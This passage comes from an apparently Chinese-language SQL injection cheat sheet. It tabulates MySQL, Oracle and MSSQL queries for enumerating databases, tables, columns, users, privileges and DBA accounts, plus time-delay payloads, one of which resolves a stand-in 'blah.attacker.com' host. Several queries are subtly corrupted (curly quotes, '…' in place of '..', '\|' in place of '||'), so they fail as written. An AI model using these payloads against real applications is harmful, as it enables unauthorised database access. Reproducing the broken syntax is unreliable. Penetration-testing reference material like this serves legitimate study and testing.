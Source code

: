 | 时间睡眠      | SELECT BENCHMARK(1000000,MD5(‘A’))                           | -                     |
| -             | SELECT SLEEP(5)                                              | #版本>= 5.0.12        |

#### 1.5.2 Oracle数据库

| 释义          | SQL语句                                                      | 其他              |
| ------------- | ------------------------------------------------------------ | ----------------- |
| 当前数据库    | SELECT global\_name FROM global\_name                        | —                 |
| -             | SELECT name FROM v$database                                  | —                 |
| -             | SELECT instance_name FROM v$instance                         | —                 |
| -             | SELECT SYS.DATABASE_NAME FROM DUAL                           | —                 |
| 所有数据库    | SELECT DISTINCT owner FROM all_tables                        | —                 |
| 查询表名      | SELECT table\_name FROM all\_tables                          | —                 |
| -             | SELECT owner, table\_name FROM all\_tables                   | —                 |
| 查询列名      | SELECT column\_name FROM all\_tab\_columns WHERE table\_name = ‘blah’ | —                 |
| -             | SELECT column\_name FROM all\_tab\_columns WHERE table\_name = ‘blah’ and owner = ‘foo’ | —                 |
| 获取版本      | SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’     | —                 |
| -             | SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’        | —                 |
| -             | SELECT version FROM v$instance                               | —                 |
| 当前用户      | SELECT user FROM dual                                        | —                 |
| 用户权限      | SELECT * FROM session_privs                                  | #当前权限         |
| -             | SELECT * FROM dba\_sys\_privs WHERE grantee = ‘DBSNMP’       | #列出用户的权限   |
| 列出DBA账户   | SELECT DISTINCT grantee FROM dba\_sys\_privs WHERE ADMIN_OPTION = ‘YES’ | —                 |
| 选择第N行     | SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9 | #第九行           |
| 选择第N个字符 | SELECT substr(‘abcd’, 3, 1) FROM dual                        | #第3个字符c       |
| ASCII值-字符  | SELECT chr(65) FROM dual                                     | #返回A            |
| 字符-ASCII值  | SELECT ascii(‘A’) FROM dual                                  | #返回65           |
| 字符串连接    | SELECT ‘A’ \| ‘B’ FROM dual                                  | #返回AB           |
| 时间睡眠      | SELECT UTL\_INADDR.get\_host_name(‘10.0.0.1’) FROM dual      | #如果反向查询很慢 |
| -             | SELECT UTL\_INADDR.get\_host_address(‘blah.attacker.com’) FROM dual | #如果正向查询很慢 |

#### 1.5.3 MSSQL数据库

| 释义          | SQL语句                                                      | 其他                             |
| ------------- | ------------------------------------------------------------ | -------------------------------- |
| 当前数据库    | SELECT DB_NAME()                                             | -                                |
| 所有数据库    | SELECT name FROM master…sysdatabases                         | -                                |
| -             | SELECT DB_NAME(N)                                            | #N为0,1,2,…                      |
| 查询表名      | SELECT name FROM master…sysobjects WHERE xtype = ‘U’         | -                                |
| -             | SELECT name FROM someotherdb…sysobjects WHERE xtype = ‘U’    | -                                |
| 查询列名      | SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’) | #当前数据库                      |
| -             | SELECT master…syscolumns.name, TYPE_NAME(master…syscolumns.xtype) FROM master…syscolumns, master…sysobjects WHERE master…syscolumns.id=master…sysobjects.id AND master…sysobjects.name=‘sometable’ | #列出master…sometable的列名称    |